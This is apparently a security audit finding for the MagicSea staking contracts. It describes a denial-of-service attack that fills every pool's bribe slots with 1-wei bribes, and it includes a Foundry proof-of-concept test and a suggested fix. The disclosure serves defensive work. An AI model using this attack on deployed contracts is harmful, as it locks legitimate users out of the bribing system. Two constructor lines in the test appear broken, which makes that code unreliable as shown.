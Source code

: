 Itchy Mango Lynx

High

# DOS - A malicious user can take down the bribing system

## Summary
DOS - A malicious user can take down the bribing system.

## Vulnerability Detail
There is no limit on creating bribe rewarders, allowing everyone to create as many as they want. Thus, anyone can create bribe rewarders up to the `MAX_BRIBES_PER_POOL` constant and call the `BribeRewarder::fundAndBribe()` function on each of them with the lowest `amountPerPeriod` possible (1 wei). Because the `amountPerPeriod` is too low, they can bribe for long periods. Consequently, the bribe limit for a pool within those long periods is reached, and other users can't bribe.

## Impact
An attacker can put bribes on every pool for every period with a small amount of money, preventing other users from bribing.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L141

## Code Snippet
```javascript
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/transparent/TransparentUpgradeableProxy2Step.sol";
import {ERC20Mock} from "./mocks/ERC20.sol";
import {MasterChefMock} from "./mocks/MasterChefMock.sol";
import {MlumStaking} from "../src/MlumStaking.sol";
import "../src/Voter.sol";
import "../src/rewarders/bribeRewarder.sol";
import "../src/rewarders/RewarderFactory.sol";

contract VoterTest is Test {
    address payable immutable DEV = payable(makeAddr("dev"));
    address payable immutable ATTACKER = payable(makeAddr("attacker"));
    address payable immutable NORMAL_USER = payable(makeAddr("user"));

    address pool = makeAddr("pool");

    RewarderFactory factory;
    Voter private _voter;
    MlumStaking private _pool;

    ERC20Mock private _stakingToken;
    ERC20Mock private _rewardToken;

    function setUp() public {
        vm.prank(DEV);
        _stakingToken = new ERC20Mock("MagicLum", "MLUM", 18);

        vm.startPrank(DEV);
        _rewardToken = new ERC20Mock("DAI", "DAI", 18);
        _rewardToken.mint(ATTACKER, 505);
        _rewardToken.mint(NORMAL_USER, 41e18);
        vm.stopPrank();

        vm.prank(DEV);
        address poolImpl = address(new MlumStaking(_stakingToken, _rewardToken));

        vm.startPrank(DEV);
        address factoryImpl = address(new RewarderFactory());
        factory = RewarderFactory(
            address(
                new TransparentUpgradeableProxy2Step(
                    factoryImpl,
                    ProxyAdmin2Step(address(1)),
                    abi.encodeWithSelector(
                        RewarderFactory.initialize.selector,
                        address(this),
                        new uint8 ,
                        new address 
                    )
                )
            )
        );
        vm.stopPrank();

        vm.prank(DEV);
        MasterChefMock mock = new MasterChefMock();

        _pool = MlumStaking(
            address(
                new TransparentUpgradeableProxy2Step(
                    poolImpl,
                    ProxyAdmin2Step(address(1)),
                    abi.encodeWithSelector(MlumStaking.initialize.selector, DEV)
                )
            )
        );

        vm.prank(DEV);
        address voterImpl = address(new Voter(mock, _pool, factory));

        _voter = Voter(
            address(
                new TransparentUpgradeableProxy2Step(
                    voterImpl,
                    ProxyAdmin2Step(address(1)),
                    abi.encodeWithSelector(Voter.initialize.selector, DEV)
                )
            )
        );

        vm.prank(DEV);
        factory.setRewarderImplementation(
            IRewarderFactory.RewarderType.BribeRewarder, 
            IRewarder(address(new BribeRewarder(address(_voter))))
        );

        vm.prank(DEV);
        _voter.updateMinimumLockTime(2 weeks);
    }

    function test_DOS() public {
        // The default MAX_BRIBES_PER_POOL is 5, so the attacker needs to create five bribe rewarders.
        vm.startPrank(ATTACKER);

        BribeRewarder rewarder1 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));
        BribeRewarder rewarder2 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));
        BribeRewarder rewarder3 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));
        BribeRewarder rewarder4 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));
        BribeRewarder rewarder5 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));

        // The attacker bribes with the lowest amount possible.
        _rewardToken.approve(address(rewarder1), 101);
        rewarder1.fundAndBribe(1, 100, 1);

        _rewardToken.approve(address(rewarder2), 101);
        rewarder2.fundAndBribe(1, 100, 1);

        _rewardToken.approve(address(rewarder3), 101);
        rewarder3.fundAndBribe(1, 100, 1);

        _rewardToken.approve(address(rewarder4), 101);
        rewarder4.fundAndBribe(1, 100, 1);

        _rewardToken.approve(address(rewarder5), 101);
        rewarder5.fundAndBribe(1, 100, 1);

        vm.stopPrank();

        // Now the normal user is not able to bribe.
        vm.startPrank(NORMAL_USER);

        BribeRewarder rewarder6 = BribeRewarder(payable(address(factory.createBribeRewarder(_rewardToken, pool))));

        _rewardToken.approve(address(rewarder6), 41e18);
        rewarder6.fundAndBribe(10, 50, 1e18);

        vm.stopPrank();
    }
}
```
### This test will fail with the `too much bribes` message.

## Tool used
Manual Review
Foundry

## Recommendation
To mitigate this bug, the `amountPerPeriod `can be checked to ensure it is above a certain threshold, or administrators can increase the `MAX_BRIBES_PER_POOL` constant.